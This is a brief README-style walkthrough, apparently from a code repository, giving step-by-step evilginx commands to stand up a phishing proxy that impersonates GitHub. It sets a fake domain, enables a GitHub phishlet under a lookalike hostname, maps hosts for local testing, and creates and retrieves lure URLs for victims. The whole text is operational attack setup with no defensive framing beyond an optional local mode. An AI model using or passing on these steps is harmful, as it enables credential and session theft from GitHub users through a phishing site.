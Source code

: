 # evilginx


1.Setup domain
		`config domain fake.com/custom domain`

2.config IPv4
		`config ipv4 127.0.0.1`

3.set phishlet hostname
		`phishlets hostname github github.io.fake.com`
4.Enable Phishlet
		`phishlets enable github `

5.Optinal(Dev mode\Local Mode)
		`phishlets get-hosts github`

		127.0.0.1 github.io.fake.com
		127.0.0.1 api.github.io.fake.com
		127.0.0.1 github.github.io.fake.com
		SET THIS TO /ETC/HOSTS 

6.Create Lures
		`lures create github`

7.List all lures
		`lures`

8.Get the Lures URLs
		`lures get-urls 0 (id .i.e 0)`
